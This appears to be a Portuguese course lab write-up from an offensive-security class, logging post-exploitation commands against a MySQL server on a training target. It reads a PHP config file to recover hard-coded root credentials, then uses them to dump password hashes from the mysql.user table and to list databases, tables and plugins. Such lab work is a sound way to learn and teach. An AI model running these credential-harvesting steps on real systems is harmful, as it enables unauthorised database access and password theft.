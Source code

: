 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Exploration mysql

---
# **🗄️ Comandos de Exploração do MySQL**

<img width="266" height="122" alt="image" src="https://github.com/user-attachments/assets/c2b6c4ae-a5a8-4011-a9be-b08bd4624268" />

- 2 pdf ja upado no sistema

## comando : mysql --version

```ruby
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (x86_64) using readline 6.3
```

## comando : cat /var/www/html/prog/db.php
```ruby
  <!--?php
  
      $lnk = @mysql_connect("localhost", "root", "dbhacklfi");
      $db = mysql_select_db('deseclfi', $lnk);
  
  ?--> 

```

## comando : mysql -u root -pdbhacklfi -e "use mysql; select user, host, password from user;"
```ruby
  user	host	password
  root	localhost	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	rh	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	127.0.0.1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	::1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  debian-sys-maint	localhost	*300DD417C72920F12EBD3A01236771655230AC5A
```

## comando : mysql -u root -pdbhacklfi -e "show databases;"

```ruby
  Database
  information_schema
  deseclfi
  mysql
  performance_schema
```

## comando : mysql -u root -pdbhacklfi -e "use deseclfi; show tables;"

```ruby
  Tables_in_deseclfi
  submissions
```
## comando: mysql -u root -pdbhacklfi -e "use mysql; show tables;"

```ruby
  Tables_in_mysql
  columns_priv
  db
  event
  func
  general_log
  help_category
  help_keyword
  help_relation
  help_topic
  host
  ndb_binlog_index
  plugin
  proc
  procs_priv
  proxies_priv
  servers
  slow_log
  tables_priv
  time_zone
  time_zone_leap_second
  time_zone_name
  time_zone_transition
  time_zone_transition_type
  user

```


## comando : cat /var/www/html/BANCO\ DE\ DADOS/bd.sql
```ruby
  -- MySQL dump 10.13  Distrib 5.1.63, for debian-linux-gnu (i486)
  --
  -- Host: localhost    Database: cfp
  -- ------------------------------------------------------
  -- Server version	5.1.63-0+squeeze1
  
  /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
  /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
  /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
  /*!40101 SET NAMES utf8 */;
  /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
  /*!40103 SET TIME_ZONE='+00:00' */;
  /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
  /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
  /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
  /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
  
  --
  -- Table structure for table `submissions`
  --
  
  DROP TABLE IF EXISTS `submissions`;
  /*!40101 SET @saved_cs_client     = @@character_set_client */;
  /*!40101 SET character_set_client = utf8 */;
  CREATE TABLE `submissions` (
    `id` mediumint(9) NOT NULL AUTO_INCREMENT,
    `email` varchar(150) DEFAULT NULL,
    `password` varchar(50) DEFAULT NULL,
    `title` varchar(150) DEFAULT NULL,
    `description` text,
    `bio` text,
    `filename` varchar(150) DEFAULT NULL,
    PRIMARY KEY (`id`)
  ) ENGINE=MyISAM DEFAULT CHARSET=latin1;
  /*!40101 SET character_set_client = @saved_cs_client */;
  
  --
  -- Dumping data for table `submissions`
  --
  
  LOCK TABLES `submissions` WRITE;
  /*!40000 ALTER TABLE `submissions` DISABLE KEYS */;
  /*!40000 ALTER TABLE `submissions` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  
  /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
  /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
  /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
  /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
  /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
  /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
  /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
  
  -- Dump completed on 2017-01-09 23:37:44
```

**Vendo plugins** : mysql -u root -pdbhacklfi -e "SHOW PLUGINS"

```ruby
Name	Status	Type	Library	License
binlog	ACTIVE	STORAGE ENGINE	NULL	GPL
mysql_native_password	ACTIVE	AUTHENTICATION	NULL	GPL
mysql_old_password	ACTIVE	AUTHENTICATION	NULL	GPL
MEMORY	ACTIVE	STORAGE ENGINE	NULL	GPL
CSV	ACTIVE	STORAGE ENGINE	NULL	GPL
MRG_MYISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
MyISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
FEDERATED	DISABLED	STORAGE ENGINE	NULL	GPL
InnoDB	ACTIVE	STORAGE ENGINE	NULL	GPL
INNODB_TRX	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCKS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCK_WAITS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE_LRU	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_POOL_STATS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
PERFORMANCE_SCHEMA	ACTIVE	STORAGE ENGINE	NULL	GPL
ARCHIVE	ACTIVE	STORAGE ENGINE	NULL	GPL
BLACKHOLE	ACTIVE	STORAGE ENGINE	NULL	GPL
partition	ACTIVE	STORAGE ENGINE	NULL	GPL
```

